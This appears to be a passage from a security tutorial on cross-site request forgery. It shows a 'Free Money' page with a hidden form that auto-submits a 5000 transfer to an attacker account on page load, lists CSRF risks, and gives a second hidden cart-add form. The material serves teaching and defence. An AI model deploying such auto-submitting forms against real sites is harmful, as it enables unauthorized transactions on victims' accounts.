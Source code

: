 #### Malicious Site
```html
<!DOCTYPE html>
<html>
<head>
    <title>Free Money!</title>
</head>
<body>
    <h1>Click here for free money!</h1>
    
    <!-- Hidden CSRF attack -->
    <form action="https://bank.com/transfer" method="POST" id="csrf-attack" style="display:none;">
        <input type="hidden" name="recipient" value="attacker@evil.com">
        <input type="hidden" name="amount" value="5000">
    </form>
    
    <script>
        // Automatically submit when page loads
        window.onload = function() {
            document.getElementById('csrf-attack').submit();
        };
    </script>
</body>
</html>
```

## CSRF Attack Risks

### Financial Risks
- **Unauthorized transfers**: Money sent to attacker accounts
- **Purchase manipulation**: Unwanted purchases made
- **Account modifications**: Changes to payment methods
- **Subscription changes**: Unwanted service subscriptions

### Data Risks
- **Profile modifications**: Changes to user profiles
- **Privacy settings**: Exposure of private information
- **Contact information**: Changes to email/phone numbers
- **Password changes**: Account takeover attempts

### Operational Risks
- **Content creation**: Unwanted posts or comments
- **Administrative actions**: Unauthorized admin operations
- **System configuration**: Changes to system settings
- **User management**: Unauthorized user operations

### Example Attack Scenarios

#### 1. **E-commerce CSRF**
```html
<!-- Add expensive item to cart -->
<form action="https://shop.com/cart/add" method="POST">
    <input type="hidden" name="product_id" value="expensive-laptop">
    <input type="hidden" name="quantity" value="1">
</form>
```
